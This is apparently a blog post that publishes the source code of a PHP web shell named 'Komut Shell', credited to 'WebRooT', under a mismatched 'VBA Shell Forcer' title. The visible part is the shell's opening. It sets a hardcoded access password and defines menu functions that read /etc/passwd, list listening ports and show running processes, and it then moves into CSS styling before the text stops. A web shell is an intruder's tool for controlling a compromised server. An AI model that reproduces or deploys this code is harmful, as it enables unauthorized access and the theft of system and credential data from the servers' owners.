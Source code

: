 ```yaml
---
id: 24
title: VBA Shell Forcer
author: admin
layout: post
categories:
  - VBA
---
```



### Komut Shell source code

#### ~ by WebRooT


{% highlight php linenos %}
<?php ?><?php
session_start();
error_reporting(0);
$password = "webr00t"; //Change this to your password ;)
$version = "0.7B";
$functions = array('Ekrani Temizle' => 'ClearScreen()', 'Gecmisi Temizle' => 'ClearHistory()', 'Fonksiyon Bilgisi' => "runcommand('canirun','GET')", 'Server Bilgisi' => "runcommand('showinfo','GET')", '/etc/passwd Oku' => "runcommand('etcpasswdfile','GET')", 'Acik Portlar' => "runcommand('netstat -an | grep -i listen','GET')", 'Calisan Uygulamalar' => "runcommand('ps -aux','GET')",);
$thisfile = basename(__FILE__);
$style = '<style type="text/css">
.cmdthing {
    border-top-width: 0px;
    font-weight: bold;
    border-left-width: 0px;
    font-size: 10px;
    border-left-color: #000000;
    background: #000000;
    border-bottom-width: 0px;
    border-bottom-color: #FFFFFF;
    color: #FFFFFF;
    border-top-color: #008000;
    font-family: verdana;
    border-right-width: 0px;
    border-right-color: #000000;
}
input,textarea {
    border-top-width: 1px;
    font-weight: bold;
    border-left-width: 1px;
    font-size: 10px;
    border-left-color: #FFFFFF;
    background: #000000;
    border-bottom-width: 1px;
    border-bottom-color: #FFFFFF;
    color: #FFFFFF;
    border-top-color: #FFFFFF;
    font-family: verdana;
    border-right-width: 1px;
    border-right-color: #FFFFFF;
}
A:hover {
text-decoration: none;
}


table,td,div {